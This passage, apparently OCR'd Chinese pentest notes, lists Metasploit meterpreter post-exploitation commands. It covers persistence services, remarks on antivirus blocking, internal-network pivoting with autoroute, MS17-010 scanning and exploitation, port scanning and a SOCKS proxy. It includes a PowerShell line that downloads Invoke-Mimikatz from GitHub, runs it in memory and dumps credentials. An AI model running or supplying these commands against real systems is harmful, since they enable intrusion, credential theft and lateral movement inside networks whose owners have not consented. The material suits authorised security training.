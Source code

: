meterpreter 的 ``run getgui -e`` 命令可以开启成功。360 会提示阻止

``Run metsvc -h`` ：用于创建服务，会创建 meterpreter 服务，并上传三个文件，使用-r参数可以卸载服务 ，被拦

### Msf powershell

> meterpreter > load powershell
>
> meterpreter > powershell_shell
>
> PS > IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');
>
> Ps > Invoke-Mimikatz -DumpCreds

### Msf Router

2 个或多个路由之间，没有配置相应的路由表，不能访问，获得一台机器 shell session  添加路由，使 msf 可以在当前 shell session 下以被攻击机访问其他内网主机，

> meterpreter > run get_local_subnets 
>
> meterpreter > run autoroute -s 172.17.0.0/16  添加路由
>
> meterpreter > run autoroute -p 				  查看路由
>
> meterpreter > run autoroute -d -s 172.17.0.0/16  删除

MS17-010

> meterpreter > background 
>
> msf exploit(multi/handler) > use auxiliary/scanner/smb/	smb_ms17_010 
>
> msf auxiliary(scanner/smb/smb_ms17_010) > set rhosts 172.17.0.0/24
>
> msf auxiliary(scanner/smb/smb_ms17_010) > set threads 50
>
> msf auxiliary(scanner/smb/smb_ms17_010) > run

先利用 ``exploit/windows/smb/ms17_010_psexec``，win10 旧版依旧可以，新版设置  smbuser，smbpass 即可

### Msf 扫描

经过上面设置路由即可使用以下 scan：

> use auxiliary/scanner/portscan/syn
>
> use auxiliary/scanner/portscan/tcp

proxychains 设置 socks4 为以下设置，即可在本地代理扫描

> use auxiliary/server/socks4a

### Msf 端口转发 portfwd
